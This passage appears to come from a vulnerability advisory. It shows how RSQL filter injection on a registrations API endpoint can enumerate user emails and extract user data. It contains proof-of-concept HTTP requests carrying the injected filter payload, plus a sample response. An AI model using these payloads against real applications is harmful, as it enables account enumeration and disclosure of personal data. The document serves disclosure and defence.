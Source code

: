 Although a `/api/registrations?email=<emailAccount>` is expected, it is possible to use RSQL filters to attempt to enumerate and/or extract user information through the use of special operators:

### Request

```http
GET /api/registrations?filter[userAccounts]=email=='test@test.com' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Origin: https://locahost:3000
Connection: keep-alive
Referer: https://locahost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```

### Response

```http
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 14:09:38 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 38
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": {
        "attributes": {
            "tenants": []
        }
    }
}
```

In the case of matching a valid email account, the application would return the user's information instead of a classic *“true”*, *"1"* or whatever in the response to the server:

### Request

```http
GET /api/registrations?filter[userAccounts]=email=='manuel**********@domain.local' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
